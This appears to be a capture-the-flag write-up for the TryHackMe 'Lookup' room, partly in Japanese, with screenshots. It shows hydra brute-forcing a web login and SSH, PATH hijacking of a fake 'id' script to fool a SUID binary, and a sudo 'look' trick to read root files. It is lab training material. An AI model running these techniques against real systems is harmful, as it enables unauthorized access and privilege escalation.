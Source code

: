 ## THM_Lookup
https://tryhackme.com/room/lookup

### 🚩User
![image](https://github.com/user-attachments/assets/a1fe0497-1056-4a48-a64b-b8931de06d7e)

![image](https://github.com/user-attachments/assets/35eb0aaf-cb55-4799-92c2-842225e1f1ac)

![image](https://github.com/user-attachments/assets/24e466d7-4de6-48a4-964c-c04c67e645c2)

According to error msg I am sure "admin" is enable.And I tried to hydra for getting admin password, but there is no credential.
So I seek for other users.
```
hydra lookup.thm -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=username" -p a
```
![image](https://github.com/user-attachments/assets/058c5430-6fe8-494a-9db9-f445c9ce0074)

```
hydra lookup.thm -l jose -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password"  
```
![image](https://github.com/user-attachments/assets/1642b93d-af9b-404e-997b-b2dd62718d5d)


![image](https://github.com/user-attachments/assets/95808164-ee3d-4351-bff5-521f01d460d9)
<P>
Added /etc/hosts "files.lookup.thm"

![image](https://github.com/user-attachments/assets/0f553640-3c57-4771-8cb5-bcac492d59d4)

![image](https://github.com/user-attachments/assets/843f4bc1-59bd-49f2-9794-50cf5f6f7fac)

![image](https://github.com/user-attachments/assets/048a63b0-ab9b-40e4-9774-cbb746e5c970)

![image](https://github.com/user-attachments/assets/c373fdf3-228b-4cd4-a1a6-3f31f49784a5)

とにかくいつもの豆...めぼしいものがない

![image](https://github.com/user-attachments/assets/b0ead9fb-187d-4c84-ac3e-a2b123bffca3)

![image](https://github.com/user-attachments/assets/d1d949a7-11cf-4fec-937c-700bbec7a2aa)

IDで返却されたID以下のディレクトリの下のパスワードを開くっぽし、IDにthinkをわたせばよい

```
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```
![image](https://github.com/user-attachments/assets/715f7dfa-241f-4c8f-87bf-56610095f343)

どれかが有効なパスワードなはず

```
hydra -l think -P pass.txt ssh://10.10.62.113  
```
![image](https://github.com/user-attachments/assets/b4c8692d-569e-4816-9efe-0fcff22e1a2e)


### 🚩Root
![image](https://github.com/user-attachments/assets/478feb49-1f9f-4155-a812-4bb0f64547aa)

https://gtfobins.github.io/gtfobins/look/

![image](https://github.com/user-attachments/assets/3a9a1a99-ca7a-4f46-acbe-dc4ce39c8946)

```
LFILE=/root/root.txt
sudo look '' "$LFILE"
```

いつものやつのはずが、約一年ぶりですっかり忘れており疲れた
はるがくるといいなあ
💮😄💮😄💮
